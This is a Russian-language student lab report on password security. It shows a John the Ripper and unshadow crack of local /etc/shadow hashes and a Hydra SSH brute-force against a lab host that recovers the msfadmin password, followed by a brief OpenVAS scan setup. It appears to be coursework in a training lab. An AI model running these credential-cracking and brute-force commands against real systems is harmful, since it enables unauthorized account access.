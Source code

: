 # Отчет

## Задание:

1. Изучить вопрос безопасности паролей. Провести атаку на пароли с помощью John The Ripper+unshadow (оффлайн режим), Hydra (онлайн режим). В качестве инструкции можно использовать видеоматерилы или документ из доп материалов УрокMetasploitкоманды.docx
2. Установить Metasploit Framework(если не был установлен), настроить (как в методичке к уроке)
3. Проверить систему на базе ОС Windows на уязвимости, которые могут привести к атакам WannaCRY и подобного вредоносного ПО. Если система уязвима, при помощи MSF продемонстрируйте возможные векторы атак с использованием данной уязвимости.

## Выполнение:

### 1. Изучить вопрос безопасности паролей.

#### 1.1 Атака на пароли с помощью John The Ripper+unshadow (оффлайн режим):

##### Команды:

    unshadow /etc/passwd /etc/shadow > unshadow.txt
    john unshadow.txt --show


##### Результат:

    kali:kali:1000:1000:,,,:/home/kali:/bin/bash

    1 password hash cracked, 0 left

##### Скриншот консоли:

![Image](unshadow.png)


#### 1.2 Атака на пароли с помощью Hydra (онлайн режим):

##### Команды:

    hydra -l msfadmin ssh://192.168.1.172 -e nsr


##### Результат:

    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 15:14:19
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
    [DATA] attacking ssh://192.168.1.172:22/
    [22][ssh] host: 192.168.1.172   login: msfadmin   password: msfadmin
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 15:14:21


##### Скриншот консоли:

![Image](hydra.png)




2. Выполнение задания 2

    - Установлен DVL Linux 1.5;
    - Добавлен учетные данные (credentials) в OpenVAS;
    - Добавлен объект сканирования (target) в OpenVAS;
    - Создана и запущена задача сканирования.


### Скриншот отчета сканирования

![Image](scan_dvl15.png)
